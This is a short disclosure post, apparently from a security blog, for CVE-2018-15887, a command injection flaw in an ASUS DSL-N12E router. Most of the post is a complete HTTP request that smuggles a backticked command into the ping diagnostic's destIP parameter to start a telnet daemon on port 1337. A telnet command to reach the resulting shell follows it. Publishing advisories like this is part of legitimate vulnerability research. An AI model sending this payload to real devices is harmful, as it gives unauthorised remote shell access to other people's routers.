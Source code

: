 ```yaml
---
layout: post
title: "[CVE-2018-15887] ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
date: 2018-08-02
categories:
    - blog
tags:
    - asus
    - iot
    - command injection
keywords: "asus, iot, dsl-n12e, rce, command injection"
---
```


Main_Analysis_Content.asp in ASUS DSL-N12E_C1 1.1.2.3_345 is prone to Authenticated Remote Command Execution, which allows a remote attacker to execute arbitrary OS commands via service parameters, such as shell metacharacters in the destIP parameter of a cmdMethod=ping request.

```
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1
Host: www.target.com
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://www.target.com/Main_Analysis_Content.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

To connect
1. telnet www.target.com 1337
